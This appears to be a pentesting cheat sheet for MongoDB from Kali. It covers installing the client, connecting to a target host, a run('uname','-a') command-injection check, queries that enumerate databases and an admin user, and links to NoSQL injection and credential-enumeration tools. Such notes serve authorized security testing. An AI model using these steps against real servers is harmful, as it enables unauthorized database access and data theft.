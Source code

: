 [https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/](https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/)
```bash - kali
wget -qO - https://www.mongodb.org/static/pgp/server-5.0.asc | sudo apt-key add -
```
```bash - kali
sudo apt-get install gnupg
```
```bash - kali
wget -qO - https://www.mongodb.org/static/pgp/server-5.0.asc | sudo apt-key add -
```
```bash - kali
echo "deb http://repo.mongodb.org/apt/debian buster/mongodb-org/5.0 main" | sudo tee /etc/apt/sources.list.d/mongodb-org-5.0.list
```
```bash - kali
sudo apt-get update
```
```bash - kali
sudo apt-get install -y mongodb-org
```
```bash - kali
mongo "mongodb://$TARGET:27017"
```
```bash - kali
mongo "mongodb://username@$TARGET:27017"
```
#### Command Injection Check
https://cxsecurity.com/issue/WLB-2013030212
```bash - kali
run("uname","-a")
```
#### Database enumeration
```SQL
show dbs
```
```SQL
use <DATABASE>
```
```SQL
show collections
```
```SQL
db.<COLLECTION_NAME>.find()
```
```SQL
db.current.find({"username":"admin"})
```
---
#### Tools
https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
https://github.com/C4l1b4n/NoSQL-Attack-Suite
